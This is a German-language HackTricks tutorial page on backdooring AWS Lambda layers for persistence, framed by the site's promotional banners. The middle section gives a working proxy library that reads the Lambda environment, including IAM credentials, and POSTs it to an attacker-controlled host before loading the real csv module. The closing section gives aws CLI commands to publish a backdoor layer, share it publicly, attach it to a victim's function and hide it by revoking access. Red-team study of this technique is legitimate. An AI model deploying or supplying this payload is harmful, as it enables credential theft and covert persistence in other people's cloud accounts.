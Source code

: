 # AWS - Lambda Layers Persistenz

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

## Lambda-Layer

Ein Lambda-Layer ist ein .zip-Dateiarchiv, das **zusätzlichen Code** oder anderen Inhalt enthalten kann. Ein Layer kann Bibliotheken, eine [benutzerdefinierte Laufzeit](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), Daten oder Konfigurationsdateien enthalten.

Es ist möglich, bis zu **fünf Layer pro Funktion** einzuschließen. Wenn Sie einen Layer in eine Funktion einschließen, werden die **Inhalte im Verzeichnis `/opt`** in der Ausführungsumgebung extrahiert.

Standardmäßig sind die **Layer**, die Sie erstellen, **privat** für Ihr AWS-Konto. Sie können wählen, einen Layer mit anderen Konten zu **teilen** oder den Layer **öffentlich** zu **machen**. Wenn Ihre Funktionen einen Layer verbrauchen, den ein anderes Konto veröffentlicht hat, können Ihre Funktionen **weiterhin die Layer-Version verwenden, nachdem sie gelöscht wurde oder nachdem Ihre Berechtigung zum Zugriff auf den Layer widerrufen wurde**. Sie können jedoch keine neue Funktion erstellen oder Funktionen mit einer gelöschten Layer-Version aktualisieren.

Funktionen, die als Container-Image bereitgestellt werden, verwenden keine Layer. Stattdessen packen Sie Ihre bevorzugte Laufzeit, Bibliotheken und andere Abhängigkeiten in das Container-Image ein, wenn Sie das Image erstellen.

### Python-Lade-Pfad

Der Lade-Pfad, den Python in Lambda verwenden wird, ist der folgende:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Überprüfen Sie, wie die **zweite** und dritte **Position** von Verzeichnissen belegt sind, in denen **Lambda-Layer** ihre Dateien entpacken: **`/opt/python/lib/python3.9/site-packages`** und **`/opt/python`**

{% hint style="danger" %}
Wenn ein Angreifer es schafft, einen verwendeten Lambda-**Layer zu infiltrieren** oder einen hinzuzufügen, der **bösartigen Code ausführt, wenn eine gemeinsame Bibliothek geladen wird**, kann er bei jedem Lambda-Aufruf bösartigen Code ausführen.
{% endhint %}

Daher sind die Voraussetzungen:

* **Überprüfen Sie die Bibliotheken**, die vom Opfercode **geladen** werden
* Erstellen Sie eine **Proxy-Bibliothek mit Lambda-Layern**, die **benutzerdefinierten Code ausführen** und die **ursprüngliche** Bibliothek **laden** wird.

### Vorab geladene Bibliotheken

{% hint style="warning" %}
Beim Missbrauch dieser Technik stieß ich auf ein Problem: Einige Bibliotheken sind bereits im Python-Laufzeitumgebung geladen, wenn Ihr Code ausgeführt wird. Ich erwartete, Dinge wie `os` oder `sys` zu finden, aber **sogar die `json`-Bibliothek war geladen**.\
Um diese Persistenztechnik zu missbrauchen, muss der Code eine neue Bibliothek laden, die nicht geladen ist, wenn der Code ausgeführt wird.
{% endhint %}

Mit einem Python-Code wie diesem ist es möglich, die **Liste der Bibliotheken abzurufen, die in der Python-Laufzeitumgebung in Lambda vorab geladen sind**:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Und dies ist die **Liste** (überprüfen Sie, ob Bibliotheken wie `os` oder `json` bereits vorhanden sind)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Und dies ist die Liste der **Bibliotheken**, die standardmäßig in **Lambda installiert sind**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In diesem Beispiel nehmen wir an, dass der Zielcode **`csv`** importiert. Wir werden den **Import der `csv`-Bibliothek** zurücktürigen.

Dafür werden wir das Verzeichnis csv mit der Datei **`__init__.py`** darin in einem Pfad erstellen, der von Lambda geladen wird: **`/opt/python/lib/python3.9/site-packages`**\
Dann, wenn Lambda ausgeführt wird und versucht, **csv** zu laden, wird unsere **`__init__.py`-Datei geladen und ausgeführt**.\
Diese Datei muss:

- Unser Payload ausführen
- Die originale csv-Bibliothek laden

Wir können beides mit:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Dann erstellen Sie ein Zip mit diesem Code im Pfad **`python/lib/python3.9/site-packages/__init__.py`** und fügen Sie es als Lambda-Layer hinzu.

Sie können diesen Code unter [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) finden.

Das integrierte Payload wird **die IAM-Anmeldeinformationen beim ersten Aufruf an einen Server senden oder NACH einem Zurücksetzen des Lambda-Containers** (Änderung des Codes oder kaltes Lambda), aber **andere Techniken** wie die folgenden könnten ebenfalls integriert werden:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Externe Layer

Beachten Sie, dass es möglich ist, **Lambda-Layer von externen Konten zu verwenden**. Darüber hinaus kann eine Lambda-Schicht aus einem externen Konto verwendet werden, auch wenn sie keine Berechtigungen hat.\
Beachten Sie auch, dass die **maximale Anzahl von Layern, die eine Lambda haben kann, 5 beträgt**.

Daher könnte ein Angreifer zur Verbesserung der Vielseitigkeit dieser Technik:

* Eine vorhandene Schicht des Benutzers infiltrieren (nichts ist extern)
* **Eine Schicht** in **seinem Konto erstellen**, dem **Opferkonto Zugriff** auf die Verwendung der Schicht geben, die **Schicht** in das Lambda des Opfers **konfigurieren** und die Berechtigung **entfernen**.
* Das **Lambda** wird weiterhin in der Lage sein, die **Schicht zu verwenden**, und das **Opfer** wird keine einfache Möglichkeit haben, den **Code der Schicht herunterzuladen** (außer durch Erhalt einer Reverse-Shell innerhalb des Lambdas)
* Das Opfer wird keine externen Schichten sehen, die mit **`aws lambda list-layers`** verwendet werden

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>
